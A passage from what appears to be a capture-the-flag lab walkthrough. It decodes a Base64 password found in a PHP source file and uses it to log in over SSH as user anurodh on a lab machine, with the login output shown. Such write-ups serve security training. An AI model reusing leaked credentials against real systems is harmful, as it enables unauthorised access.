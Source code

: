 * In the `source_code.php` file we can see a message for a user `Anurodh` and a Base64 encoded password.
* Let's decode the password using `base64`.

```
$ echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
!d0ntKn0wmYp@ssw0rd            
```

* We can now login through SSH as the user `anurodh` using the `!d0ntKn0wmYp@ssw0rd` password.

```
$ ssh anurodh@10.10.159.234                                
The authenticity of host '10.10.159.234 (10.10.159.234)' can't be established.
ED25519 key fingerprint is SHA256:mDI9eoI+sD1gmuE1Vl2iLvyVIopHnZlbAEFxr82BFwc.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.159.234' (ED25519) to the list of known hosts.
anurodh@10.10.159.234's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Dec 14 09:53:01 UTC 2023

  System load:  0.08               Processes:              134
  Usage of /:   24.8% of 18.57GB   Users logged in:        0
  Memory usage: 22%                IP address for eth0:    10.10.159.234
  Swap usage:   0%                 IP address for docker0: 172.17.0.1


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

19 packages can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

anurodh@ubuntu:~$ 
```

* Using the `id` command we can check the groups that the `anurodh` user is part of.

